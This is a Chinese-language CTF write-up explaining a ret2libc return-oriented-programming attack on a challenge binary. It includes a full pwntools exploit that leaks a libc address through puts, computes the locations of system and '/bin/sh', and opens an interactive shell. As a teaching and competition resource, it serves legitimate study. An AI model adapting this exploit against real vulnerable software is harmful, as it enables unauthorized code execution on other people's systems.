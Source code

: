 ```yaml
---
title: ROP之ret2libc
date: 2018-11-01 21:45:43
tags: 题目
---
```

<strong><h1>0x00 前言</h1></strong>
CTF-WIKI种给出的原理ret2libc原理:如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。进而我们就可以知道 system 函数的地址。
那么如何得到 libc 中的某个函数的地址呢？我们一般常用的方法是采用 got 表泄露，即输出某个函数对应的 got 表项的内容。当然，由于 libc 的延迟绑定机制，我们需要泄漏已经执行过的函数的地址。
我们自然可以根据上面的步骤先得到 libc，之后在程序中查询偏移，然后再次获取 system 地址

自己理解:就是通过OGT表leak出已经执行的函数地址 通过这个函数地址找到libc的基地 再通过这个基地去偏移找其他函数的地址

给出一道题目 说团队的丁佬给我去试水的 题目链接我会放到最后

<strong><h1>0x01 题目</h1></strong>
先运行一下文件 看一下都可以干什么
![r](https://i.loli.net/2018/11/01/5bdb0734dbfdd.png)
发现让输入一个名字
![r](https://i.loli.net/2018/11/01/5bdb077cb8cc7.png)
发现是让自己去打怪 一个是攻击一个防御 我试了一下直接攻击 然后就GG掉了..
![r](https://i.loli.net/2018/11/01/5bdb07c06fb08.png)
我们拖入IDA看看
![r](https://i.loli.net/2018/11/01/5bdb085ec85f4.png)
函数就是通过stroy()去进行函数vlun() 我们先看下vlun()函数里面是什么
![r](https://i.loli.net/2018/11/01/5bdb08f54d364.png)
看到了溢出的地方了 看来是要进入这个函数了 我们再去看看story()
![r](https://i.loli.net/2018/11/01/5bdb0960637f7.png)
看到了必须到return 1的那一步 但是发现下面都是通过v2判断进行的 v2又来自menu()函数 再去看看menu()函数
![r](https://i.loli.net/2018/11/01/5bdb0a8ba8a31.png)
发现就是自己刚才的选择 选2返回2 选1返回1
![r](https://i.loli.net/2018/11/01/5bdb0ae394572.png)
发现需要使v8=0 v8初始值是-56 v8值改变可以-v5 也可以加10
v5的值是4 那我们可以加6次10 再减去一个v5就可以啊 
![r](https://i.loli.net/2018/11/01/5bdb0ba478426.png)
发现真的可以 那我们就来构造rop 看一下栈长度
![r](https://i.loli.net/2018/11/01/5bdb0beb9b4f1.png)
是30h也就是48字节 再加入ebp就是 48+4字节 先ldd看看下文件用的那个libc库
![r](https://i.loli.net/2018/11/01/5bdb0c8fdb56d.png)
发现用的是``libc.so.6 => /lib32/libc.so.6 (0xf7d3f000)``
那我们就开始构造exp！
<strong><h1>0x02 exp</h1></strong>
先是常规的把ELF和本地都连接一下
```python
from pwn import *

libc = ELF('/lib32/libc.so.6')
warrior_tales = ELF('./warrior_tales')
context(arch ='i386', os = 'linux')

#sh = remote('45.76.249.121',1553)      //原本题上是nc 大家本地就可以
sh = process('./warrior_tales')
```
再把前面的部分过了 直接到溢出的部分
```python
next = sh.recv()
print next
sh.sendline('root')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('1')
print sh.recvline()
```
下面就是重点 rop的构造
我们先用puts函数把__libc_start_main的地址打出来 并返回vlun函数(为了下次的溢出)
```python
puts_plt = warrior_tales.plt['puts']
vlun = warrior_tales.symbols['vlun']
libc_start_main_got = warrior_tales.got['__libc_start_main']
print "vlun:",vlun

payload = flat(['A'*52,puts_plt,vlun,libc_start_main_got])
print payload
```
得到了__libc_start_main地址后通过libc函数偏移得到libc基地 并获得``system``函数地址和``/bin/sh``字符串地址 返回地址随便只要4字节就可以 但记好payload发送后要接受一次 因为后面还要打印一个东西!
```python
libc_start_main_addr = u32(test[0:4])
print "libc_start_main_addr",str(hex(libc_start_main_addr))
libcbase = libc_start_main_addr - libc.symbols['__libc_start_main']
print "libcbase:",str(hex(libcbase))
system_addr = libcbase + libc.symbols['system']
print "system_addr:",str(hex(system_addr))
binsh = libcbase + libc.search('/bin/sh').next()
print "binsh:",str(hex(binsh))
payload = flat(['a'*52,system_addr,0xdeafbeef,binsh])
#sh.sendlineafter("Hero! Now, write something for your story!",payload)
sh.sendline(payload)
sh.recv()
sh.interactive()
```
最后把完整代码附上
```python
from pwn import *

libc = ELF('/lib32/libc.so.6')
warrior_tales = ELF('./warrior_tales')
context(arch ='i386', os = 'linux')

#sh = remote('45.76.249.121',1553)
sh = process('./warrior_tales')
next = sh.recv()
print next
sh.sendline('root')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('2')
next = sh.recv()
print next
sh.sendline('1')
print sh.recvline()
puts_plt = warrior_tales.plt['puts']
vlun = warrior_tales.symbols['vlun']
libc_start_main_got = warrior_tales.got['__libc_start_main']
print "vlun:",vlun

payload = flat(['A'*52,puts_plt,vlun,libc_start_main_got])
print payload
sh.sendlineafter("Hero! Now, write something for your story!\n", payload)
#sh.sendline(payload)
print sh.recvline()
test = sh.recvline()
print test
#print test[0:4]
#libc_start_main_addr = u32(sh.recv()[0:4])
libc_start_main_addr = u32(test[0:4])
print "libc_start_main_addr",str(hex(libc_start_main_addr))
libcbase = libc_start_main_addr - libc.symbols['__libc_start_main']
print "libcbase:",str(hex(libcbase))
system_addr = libcbase + libc.symbols['system']
print "system_addr:",str(hex(system_addr))
binsh = libcbase + libc.search('/bin/sh').next()
print "binsh:",str(hex(binsh))
payload = flat(['a'*52,system_addr,0xdeafbeef,binsh])
#sh.sendlineafter("Hero! Now, write something for your story!",payload)
sh.sendline(payload)
sh.recv()
sh.interactive()
```
最后结果
![r](https://i.loli.net/2018/11/01/5bdb0f9619b6e.png)
链接: https://pan.baidu.com/s/1v6q4OL18Wo64WCXlPzxIfw 提取码: rdy2